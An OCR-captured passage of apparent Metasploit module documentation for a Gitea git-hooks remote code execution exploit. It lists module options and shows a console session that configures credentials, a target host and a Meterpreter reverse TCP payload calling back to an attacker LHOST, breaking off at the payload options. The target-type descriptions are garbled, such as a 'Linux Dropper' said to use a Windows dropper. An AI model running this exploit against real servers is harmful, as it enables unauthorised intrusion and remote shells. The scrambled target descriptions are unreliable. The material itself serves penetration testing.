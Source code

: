 This uses a Linux dropper to execute code.

### 2 (Unix Command)

This executes a Windows command.

### 3 (Linux Dropper)

This uses a Windows dropper to execute code.

## Options

### TARGETURI

The base path of the Gitea application, which is set to `/` by default.

### USERNAME

The username to authenticate with.

### PASSWORD

The password to authenticate with.

## Scenarios

### Gitea 1.12.6 on Docker

```
msf6 > use multi/http/gitea_git_hooks_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/gitea_git_hooks_rce) > set USERNAME msfuser
USERNAME => msfuser
msf6 exploit(multi/http/gitea_git_hooks_rce) > set PASSWORD Msf!23
PASSWORD => Msf!23
msf6 exploit(multi/http/gitea_git_hooks_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/gitea_git_hooks_rce) > set LHOST 192.168.1.75
LHOST => 192.168.1.75
msf6 exploit(multi/http/gitea_git_hooks_rce) > set RPORT 3000
RPORT => 3000
msf6 exploit(multi/http/gitea_git_hooks_rce) > options

Module options (exploit/multi/http/gitea_git_hooks_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   Msf!23           yes       Password to use
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      3000             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   msfuser          yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

```
